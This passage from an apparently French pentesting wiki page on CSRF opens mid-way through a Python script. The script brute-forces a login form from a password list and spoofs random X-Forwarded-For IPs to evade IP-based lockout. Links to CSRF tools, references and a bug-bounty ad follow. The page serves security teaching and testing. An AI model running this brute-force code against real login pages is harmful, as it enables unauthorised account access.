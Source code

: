 ```python
"password": password,
"save": ""
}
headers = {
"X-Forwarded-For": f"{random.randint(1,256)}.{random.randint(1,256)}.{random.randint(1,256)}.{random.randint(1,256)}"
}
r = requests.post(URL, data=data, cookies=cookies, headers=headers, proxies=PROXY)
if "Username or password incorrect" in r.text:
return False
else:
print(f"FOUND {user} : {password}")
return True

with open(PASS_LIST, "r") as f:
for line in f:
login(USER, line.strip())
```
## Outils <a href="#outils" id="outils"></a>

* [https://github.com/0xInfection/XSRFProbe](https://github.com/0xInfection/XSRFProbe)
* [https://github.com/merttasci/csrf-poc-generator](https://github.com/merttasci/csrf-poc-generator)

## Références

* [https://portswigger.net/web-security/csrf](https://portswigger.net/web-security/csrf)
* [https://www.hahwul.com/2019/10/bypass-referer-check-logic-for-csrf.html](https://www.hahwul.com/2019/10/bypass-referer-check-logic-for-csrf.html)

​

<figure><img src="../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

**HackenProof est la plateforme des primes pour les bugs de cryptographie.**

**Obtenez des récompenses sans délai**\
Les primes HackenProof sont lancées uniquement lorsque les clients déposent le budget de récompense. Vous recevrez la récompense après la vérification du bug.
